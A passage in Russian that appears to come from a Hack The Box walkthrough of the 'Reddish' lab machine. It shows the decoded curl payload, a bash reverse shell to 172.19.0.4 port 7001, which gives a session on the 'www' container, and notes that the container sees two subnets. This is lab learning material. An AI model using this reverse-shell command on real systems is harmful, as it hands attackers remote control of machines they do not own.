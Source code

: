 Пейлоад для `curl` закодирован в [Percent-encoding](https://en.wikipedia.org/wiki/Percent-encoding), чтобы не мучаться с «плохими» символами. Вот так он выглядит в «человеческом» виде.

```bash
bash -c 'bash -i >& /dev/tcp/172.19.0.4/7001 0>&1'
```

Теперь в одно действие получаем сессию на `www`.

![Получение сессии в контейнере www](/assets/images/htb/machines/reddish/www-pwn-redis.gif)
{:.center-image}

Предлагаю осмотреться.

![www-ip-addr.png](/assets/images/htb/machines/reddish/www-ip-addr.png)
{:.center-image}

Во-первых, этот контейнер также имеет доступ в две подсети: `172.19.0.0/16` и `172.20.0.0/16`.
